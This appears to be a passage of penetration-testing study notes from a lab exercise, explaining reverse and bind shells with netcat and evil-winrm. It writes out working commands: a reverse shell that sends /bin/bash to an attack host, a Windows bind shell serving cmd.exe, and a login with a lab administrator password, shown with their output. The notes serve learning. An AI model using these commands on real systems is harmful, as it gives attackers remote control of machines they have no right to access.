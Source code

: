 #### Reverse Shell Example
* Set up listener on the attack host.
```
sudo nc -lvnp 443
listening on [any] 443 ...
```
* Send reverse shell from the target.
  * Likely done through code injection.
```
nc 10.11.12.223 443 -e /bin/bash
```
* Listener receives connection.
```
connect to [10.11.22.223] from (UNKNOWN) [10.10.199.58] 43286
```
* Commands run over the shell are executed as the target user.
```
whoami
shell
```

### Bind shells
* Code is executed to start a listener attached to a shell on the target.
* This would then be opened up to the Internet.
* Attacker connects to the port that the code has opened and obtain remote code execution.
* Does not require any configuration on the attacker's network.
* May be prevented by firewalls protecting the target.
* Less common than reverse shells.

#### Bind Shell Example
* Start listener on Windows target and tell it to execute `cmd.exe`.
```
evil-winrm -i 10.10.2.57 -u Administrator -p 'TryH4ckM3!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> nc -lvnp 8080 -r "cmd.exe"
nc.exe : Listening on [any] 8080 ...
    + CategoryInfo          : NotSpecified: (listening on [any] 8080 ...:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
connect to [10.10.2.57] from (UNKNOWN) [10.12.12.223] 57336
```
* Connect to newly opened port (listener) from attack host.
  * Gives code execution on target host.
```
nc 10.10.2.57 8080
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation.  All rights reserved.

whoami
win-shells\administrator
```
